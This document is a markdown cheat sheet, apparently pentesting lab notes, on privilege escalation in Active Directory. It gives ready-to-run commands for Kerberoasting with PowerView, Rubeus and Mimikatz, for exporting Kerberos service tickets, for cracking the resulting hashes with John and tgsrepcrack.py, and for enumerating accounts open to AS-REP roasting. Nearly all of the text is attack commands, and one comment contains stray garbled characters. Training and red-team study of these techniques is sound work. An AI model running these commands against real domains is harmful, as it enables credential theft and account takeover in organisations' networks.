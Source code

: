 ## PRivileges Escalation in AD


### Kerberoasting


```powershell
# Standard AD User. Get Domain Users SPN. Users that are for services
C:> . PowerView.ps1
C:> Get-DomainUser -SPN

# Using AD Module
C:> Get-ADUser -Filter {ServicePrincipalName ne ""$null ""} -Properties ServicePrincipalName
```
#### Using `Rubeus.exe`
```powershell
# Get kerberos stats
C:> Rubeus.exe /stats

# Use Rubeus to request a TGS for <user>
C:> Rubeus.exe kerberoast /user:<user> /simple /outfile:hashes.txt

# Accounts supporting only RC4 (Gives errors!)
C:> Rubeus.exe kerberoast /stats /rc4opsec
C:> Rubeus.exe kerberoast /user:<user> /simple /rc4opsec

# Kerberoast all possible accounts
C:> Rubeus.exe kerberoast /outfile:hashes.txt                  

# Crack with John
C:> john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```
#### Using Mimikatz
```powershell
C:> Add-Type -AssemblyNAme System.IdentityModel

C:> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"

# Dump account hashes to a `.kirbi` fileasd@service_asdasd
C:> . .\Invoke-Mimikatz.ps1
C:> Invoke-Mimikatz -Command '"kerberos::list /export"'

# Crack using `tgsrepcrack.py`
C:> python.exe .\tgsrepcrack.py .\<wordlist>.txt .\<exported_file_from_mimikatz>.kirbi
```
### Targeted Kerberoasting AS-REPs
###### Enumerating accounts with Kerberos Preauth disabled
```powershell
# 
# PowerView
C:> Get-DomainUser -PreauthNotRequired -Verbose             
# AD Module
C:> Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
